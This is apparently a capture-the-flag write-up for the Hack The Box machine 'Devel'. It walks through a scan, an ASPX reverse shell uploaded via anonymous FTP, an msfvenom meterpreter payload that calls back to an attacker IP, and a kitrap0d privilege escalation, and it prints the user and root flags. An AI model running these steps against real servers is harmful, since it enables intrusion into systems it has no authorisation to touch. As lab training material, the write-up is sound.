





# Devel (Windows)

## Enumeration

```
rustscan 10.129.79.250 -- -Pn -sC -sV -o port_scan

PORT   STATE SERVICE REASON  VERSION                                                                                                                                                       
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The machine has an open FTP port (which allows Anonymous login) as well as a webservice running on Port 80.

### Examine Port 21 - Anonymous FTP login

```
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

We can follow the `aspnet_client` path until `"/aspnet_client/system_web/2_0_50727"`. However, there are no interesting files.
Let's see what's on the webserver.

### Examine Port 80 - Microsoft IIS (Internet Information Service)


Inspecting the open Port 80, we only see a website containig a welcome picture. This is already very suspicious, as we have seen such a welcome png on the ftp server. Maybe they are even the same. Let's check if the directory `aspnet_client` exists.

```
gobuster dir -u "http://10.129.79.250" -w /usr/share/wordlists/dirb/big.txt

/aspnet_client (Status: 301)
```

It does! So it seems like the FTP server contains all the files that are hosted on the webserver. Maybe we have write permissions to the directory, via the Anonymous FTP user. If so, we can upload a simple reverse shell script and access it via the browser.

## Exploitation

As Windows server mostly support `ASP.NET`, I decided to upload a ASPX reverse shell. Credits to `borjmz` (https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) for the aspx reverse shell code. 

With the FTP client I created a directory `test` in the root directory and uploaded the reverse shell ASPX file into it. Afterwards I accessed the file via the browser. 



Now it's time for privilege escalation. This [github repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) lists many options about how to exploit the windows environment.

However, none of them works. That's when I decided to switch to metasploit. Maybe it does offer us some ways.

(At this point my machine crashed and I had to reset it. Therefore for the rest of the writeup it also has a new IP address: 10.129.80.0 instead of 10.129.79.250)

First we have to create a meterpreter reverse shell. We can use msfvenom for that.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.50 LPORT=4444 -a x86 -f aspx > shell.aspx
```

Then we again upload this file via FTP.

Before accessing the file via the browser, we first have to set up our metasploit listener:



Now run the listener and open the uploaded shell via the browser. You will receive a meterpreter session as result:



As we've already tested the user's privileges with the manual shell, we can skip this part and directly move to the privilege escalation part. We can use a metasploit module called `local_exploit_suggester`, to check which modules can be used to gain a system shell.

Therefore, first put the current meterpreter session into the background and execute following:



It provides us with many exploit suggestions that we can try:


Let's try them:

1) exploit/windows/local/bypassuac_eventvwr: Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module
2) exploit/windows/local/ms10_015_kitrap0d: Works!
   

   Information about the exploit can be found here: https://www.exploit-db.com/exploits/11199. Apparently it's a pretty famous exploit and also very techincal. So enjoy the read.

## Post Exploitation

User flag:

```
c:\Users\babis\Desktop>type user.txt.txt
type user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
```

Root flag:

```
c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
e621a0b5041708797c4fc4728bc72b4b
```